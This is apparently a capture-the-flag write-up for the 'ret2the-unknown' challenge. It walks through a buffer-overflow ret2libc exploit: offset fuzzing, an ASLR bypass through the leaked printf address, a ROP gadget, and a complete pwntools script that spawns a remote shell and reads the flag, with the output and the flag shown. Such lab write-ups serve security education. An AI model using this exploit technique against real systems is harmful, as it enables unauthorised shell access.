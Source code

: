 # ret2the-unknown

<p align="center">
    <kbd><img src="images/ret2theunknown-1.png" caption="Challenge" /></kbd><br/>
</p>

The challenge description has hinted that it is a ret2libc challenge

At line 17 of the source code, it is clear that the program is vulnerable to buffer overflow

<p align="center">
    <kbd><img src="images/ret2theunknown-2.png" caption="Challenge" /></kbd><br/>
</p>

To start, fuzz the input <br />
```
$ pattern_create 100 
'AAA%AAsAABAA$AAnAACAA-AA(AADAA;AA)AAEAAaAA0AAFAAbAA1AAGAAcAA2AAHAAdAA3AAIAAeAA4AAJAAfAA5AAKAAgAA6AAL'
``` 

Run the program and provides the above payload. It segfaults at ret instruction <br />
<p align="center">
    <kbd><img src="images/ret2theunknown-3.png" caption="Challenge" /></kbd><br/>
</p>

Looking at the registers, I can identify the return address <br />
<p align="center">
    <kbd><img src="images/ret2theunknown-4.png" caption="Challenge" /></kbd><br/>
</p>

```
$ pattern_offset AA0AAFA
AA0AAFA found at offset: 40
```

So, I need to spray 40 random characters in order to control RIP.

From the source code, I know that the address of printf function is leaked.

From the program, I know that ASLR is enabled.
<p align="center">
    <kbd><img src="images/ret2theunknown-5.png" caption="Challenge" /></kbd><br/>
</p>

Idea to pwn this challenge: Overwrite the value of RIP to address of main function so that it reruns the program. Then, obtain the address of printf function from the output and used it to find the base libc address. Once I have updated the base libc address, I can get the address of `system` as well as the strings `/bin/sh`. I also obtain ROP gadget `pop rdi; ret` from the binary (pass `/bin/sh` as an argument to `system`).

Using [ropper](https://github.com/sashs/Ropper), I know that there exists “pop rdi; ret” gadget in the binary. <br />
`$ python3 Ropper.py -f ../ret2the-unknown --search "% ?di"` <br />
<p align="center">
    <kbd><img src="images/ret2theunknown-6.png" caption="Challenge" /></kbd><br/>
</p>

Following the idea mentioned above, I created the script to perform my exploit.

```
from pwn import *

# Loading ELF files
binary = ELF('./ret2the-unknown')
linker = ELF('./ld-2.28.so')
libc = ELF('./libc-2.28.so')
context.update(arch='amd64',os='linux')

rop = ROP([binary])
pop_rdi = rop.find_gadget(['pop rdi','ret'])[0]

p = remote('mc.ax', 31568)
#p = process(binary.path)
res = p.recvuntil('there safely?\n')
print(res.decode('latin-1'))
payload = b'A' * 40
payload += p64(binary.symbols['main'])
p.sendline(payload)
printf_addr = p.recvuntil('good luck!\n').split(b'there:')[1].strip().split(b'\n')[0].strip().decode()
print("printf_addr: " + printf_addr)
print("printf_offset: " + hex(libc.symbols['printf']))
res = p.recvuntil('there safely?\n')
print(res)

# finding the base adddress
libc_base_addr = int("0x" + printf_addr, 16) - libc.symbols['printf']
print(hex(libc_base_addr))
libc.address = libc_base_addr   # update libc address

payload = b'A' * 40
payload += p64(pop_rdi + 1) # trick to handle stack misalignment (as pop rdi - 2 bytes, ret - 1 byte) (pop_rdi + 1 is ret instruction)
payload += p64(pop_rdi)
payload += p64(libc.search(b"/bin/sh").__next__())
payload += p64(libc.symbols['system'])
p.sendline(payload)

p.interactive()
```

```
$ python3 exploit-ret2libc.py
[snip]
that board meeting was a *smashing* success! rob loved the challenge!
in fact, he loved it so much he sponsored me a business trip to this place called 'libc'...
where is this place? can you help me get there safely?

printf_addr: 7fb461c48560
printf_offset: 0x58560
b"that board meeting was a *smashing* success! rob loved the challenge!\nin fact, he loved it so much he sponsored me a business trip to this place called 'libc'...\nwhere is this place? can you help me get there safely?\n"
0x7fb461bf0000
[*] Switching to interactive mode
phew, good to know. shoot! i forgot!
rob said i'd need this to get there: 7fb461c48560
good luck!
$ id
uid=1000 gid=1000 groups=1000
$ ls
flag.txt
run
$ cat flag.txt
flag{rob-is-proud-of-me-for-exploring-the-unknown-but-i-still-cant-afford-housing}
[*] Got EOF while reading in interactive
```

Flag: `flag{rob-is-proud-of-me-for-exploring-the-unknown-but-i-still-cant-afford-housing}`

# Resources
https://systemoverlord.com/2017/03/19/got-and-plt-for-pwning.html
https://github.com/Gallopsled/pwntools-tutorial